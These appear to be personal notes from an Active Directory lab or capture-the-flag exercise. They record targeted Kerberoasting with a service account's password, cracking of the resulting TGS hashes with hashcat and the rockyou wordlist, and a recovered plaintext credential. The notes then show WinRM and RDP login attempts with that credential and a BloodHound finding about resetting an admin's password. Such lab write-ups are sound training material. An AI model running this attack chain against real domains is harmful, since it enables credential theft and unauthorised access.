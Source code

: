 ```
python3 targetedKerberoast.py -d 'hokkaido-aerospace.com' -u 'hrapp-service' -p 'Untimed$Runny'
```

Okie, yay!! This actually worked!!!

![[PG/Active Directory/attachments/Pasted image 20250709103328.png]]
- Got Hazel's TGS

Save these to crack with hashcat 

```
hashcat -m 13100 hazel.hash /usr/share/wordlists/rockyou.txt
```

![[PG/Active Directory/attachments/Pasted image 20250709103624.png]]

```
Hazel.Green:haze1988
```


# Fingies crossed WinRM

```
nxc winrm 192.168.194.40 -u 'Hazel.Green' -p 'haze1988'
```

![[PG/Active Directory/attachments/Pasted image 20250709103856.png]]
- fuck 

Crack maintenance TGS too 

![[PG/Active Directory/attachments/Pasted image 20250709104105.png]]

```
hashcat -m 13100 maintenance.hash /usr/share/wordlists/rockyou.txt
```

This one didn't crack

Discovery hash didn't crack either... tempted to password spray with hazel's pass but 


```
xfreerdp3 /u:hazel.green /p:haze1988 /cert:ignore /v:192.168.194.40
```
- nope



I did figure out the pre-build searches in Bloodhound. There's nothing

![[PG/Active Directory/attachments/Pasted image 20250709105208.png]]

In bloodhound we can see hazel.green is a member of IT Group so we can forcefully change pass of tier 1 admin which is MOLLY.SMITH? Not sure how this is determined. 

![[PG/Active Directory/attachments/Pasted image 20250709105612.png]]
